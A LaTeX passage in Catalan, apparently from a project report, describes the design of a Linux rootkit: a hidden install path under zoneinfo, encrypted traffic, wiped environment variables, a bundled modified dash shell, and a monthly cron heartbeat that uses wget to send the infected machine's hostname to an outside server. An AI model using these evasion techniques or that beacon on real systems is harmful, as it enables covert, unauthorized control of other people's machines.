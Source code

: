 \begin{enumerate}
\item Localització física del fitxer. \\
Per tal que el fitxer estigui força amagat, s'ha  buscat un path al sistema on rarament s'hi accedeixi. El
path escollit per defecte és /usr/share/zoneinfo/posix/America/Indiana/. / i és possible canviar-lo en 
les opcions de compilació.
\item Comunicació xifrada. \\
Un altre mètode d'ocultació és el fet de xifrar tot el trànsit que passa per la xarxa, de tal manera que ningú pogués veure de forma accidental o 
intencionada, que és el què està viatjant per la xarxa.
\item Eliminació de les variables d'entorn. \\
Al ser executat, el launcher elimina tota variable d'entorn per tal que no es pugui tenir cap pista de què és el procés.
\end{enumerate} 


\subsection{Heard beat}
Per implementar el heard beat, s'han utilitzat les tasques programades de periodicitat mensual. En l'script
.monthly, s'ha afegit la comanda de la figura XXX

\begin{Verbatim}[commandchars=@\[\]]
wget -q hostru.mine.nu/index.php?h@PYbe[=]@PYay[$(]hostname@PYay[)]
\end{Verbatim}

Aquesta comanda, s'executarà mensualment, i realitzarà una petició contra una pàgina web, allotjada en un
servidor gratuït. Al realitzar la petició, aquesta quedarà contabilitzada juntament amb el hostname i la ip
on es troba el rootkit.

\subsection{Independència de la shell}
Per a aconseguir que el rootkit no depengui de quina shell té instal·lada el sistema on s'està executant, 
s'ha modificat la shell dash\footnote{shell basada en ash, reescrita per debian. Té la peculiaritat de ser
una shell a l'estil sh, però d'un tamany molt reduit} per a poder-se afegir dintre el rootkit. \\

En el moment en què es compila el rootkit, aquest ens demana si volem incloure una shell dintre seu, i en
cas de voler, incorpora el codi basat en dash. Com sempre aquest codi també es estàtic i compilat utilitzant
la llibreria dietlibc.

